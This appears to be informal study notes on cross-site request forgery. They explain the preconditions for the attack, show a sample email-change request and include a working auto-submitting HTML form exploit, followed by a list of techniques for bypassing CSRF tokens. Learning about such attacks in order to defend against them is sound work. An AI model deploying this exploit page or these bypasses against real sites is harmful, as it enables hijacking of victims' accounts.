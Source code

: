 <h2>To make the attacker work what you need are 3 things</h2>

1. Function you want users to interact (usually something that can help us compromise accounts)
2. Websites must use cookies (token is uh-uh)
3. Unpredictable param (like enter current password and then new password. since attackers don't know the current password i mean if they know they dont have to do this lol.)

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```
once all conditions are met we go exploittttt

```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**What happen here?**

The above is html page in attacker website. basically a submission form.(i mean in real life it wont be this simple lol as you need to make the page looks real.)

if the victim believes this is a legit website, they click the link, once they click on the link its GG. the form will automatically submitted using the victim session cookies (victim broswer automatically uses session cookies so no need for the victim to login). and more importantly websites must not use SameSite cookies or else we go empty hand.

**Bypass CSRF Token**(i like this topic alot)

-Try GET instead of POST. This may bypass CSRF token

-In some websites, the websites only checks for the word csrf. we can simply remove csrf param lol

-CSRF token is not tied to the user session = this is like CSRF token doesn't validate the owner making it easier for the attacker to just use their CSRF token to change victim email. This means you can use your own CSRF token to change someone else their password or email.

-some websites use 2 frameworks and integrate CSRF token for session cookies but CSRF token doesn't protect the sessoin cookies because it isn't compatible. 

-in some cases, server sides don't store csrf token records. this means the server side only checks whther the csrf token matches the value that submitted in the cookies or not. it's basically a duplicated token. In this case the attacker can just use their csrf token. lol
